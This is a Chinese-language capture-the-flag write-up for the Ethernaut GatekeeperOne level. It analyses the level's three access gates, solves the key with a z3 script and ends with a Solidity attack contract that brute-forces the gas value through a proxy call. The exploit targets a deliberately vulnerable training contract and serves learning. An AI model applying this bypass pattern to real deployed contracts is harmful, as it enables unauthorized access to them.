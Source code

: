 # GateKeeper One


## 要求

```
越过守门人并且注册为一个参赛者来完成这一关.

这可能有帮助:
想一想你在 Telephone 和 Token 关卡学到的知识.
你可以在 solidity 文档中更深入的了解 gasleft() 函数 (参见 here 和 here).
```

## 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 分析
这是目前碰到的最难的
首先:

```
modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }
```
`gateOne`这个函数就规定了，需要使用一个代理合约来调用。


然后:
```
modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

```
需要计算gasleft的值。开始搞迷糊了，这里不知道要怎么调用。后来看了几个文档，发现这个函数，在0.4.x的时候还叫`msg.gas`.那就是说这里的`gasleft()`其实计算的是发送者的`gas`.

现在就是要做的就是获取，进入到`enter`函数之前，消耗了多少的gas。
这个计算是真的不会，找了很多的解释，我自己也做了尝试，都不成功，直到后面看了下面这个视频
[Ethernaut靶场13关GatekeeperOne](https://www.bilibili.com/video/BV1214y1P7Gi) 才发现这个东西的影响因素很多，并不能说你计算的evm的gas是多少，实际的时候发起的就是多少，不知道metamask在这中间做了什么。有太多的不确定量。
因此还是对于`gateTwo`还是采用暴力破解吧。


```solidity
    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }
```
输入是一个`bytes8 _gateKey` 8字节的变量。
- 条件一: `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`
这意味着 _gateKey 的低 32 位应该与其低 16 位相同。

- 条件二: `uint32(uint64(_gateKey)) != uint64(_gateKey)`
这意味着 _gateKey 的低 32 位应该与其整个 64 位不同。

- 条件三: `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))`
这意味着 _gateKey 的低 32 位应该与 tx.origin 的低 16 位相同

直接使用z3来求解:
```python
from z3 import *

_gateKey = BitVec('_gateKey', 64)

tx_origin_value =   # 钱包实际的值

gateKey_32 = Extract(31, 0, _gateKey)

gatekey_16 = Extract(15,0,_gateKey)

con1 = gateKey_32 == ZeroExt(16,gatekey_16)

con2 = ZeroExt(32,gateKey_32) != _gateKey
tx_origin_16 = BitVecVal(tx_origin_value, 16)
con3 = gateKey_32 == ZeroExt(16,tx_origin_16)


solver = Solver()
solver.add(con1)
solver.add(con2)

solver.add(con3)
# 检查是否存在解
if solver.check() == sat:
    print("存在解")
    model = solver.model()
    print("_gateKey的值为:", model[_gateKey])
else:
    print("不存在解")
```

然后跑了一下，就跑出来解:
```
python ~/Downloads/z3sol.py
存在解
_gateKey的值为: 18446744069414640520

In [1]: hex(18446744069414640520)
Out[1]: '0xffffffff0000db88'

```

## pwn


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract GatekeeperOnePwn{
    address public  _target;
    event Log(bool);
    constructor(address target_){
        _target = target_;
    }
    
    function pwn()public {
        for(int i =0;i<500;i++){
            uint gas_value =uint(8191*5+i);
            bytes8 value = bytes8(0xffffffff0000db88);
            (bool suc,)=address(_target).call{gas:gas_value}(abi.encodeWithSignature("enter(bytes8)", value));
            if(suc){
                emit Log(true);
                break; 
            }
        }
        emit Log(false);
    }

}

```

成功！目前耗时最久的一关。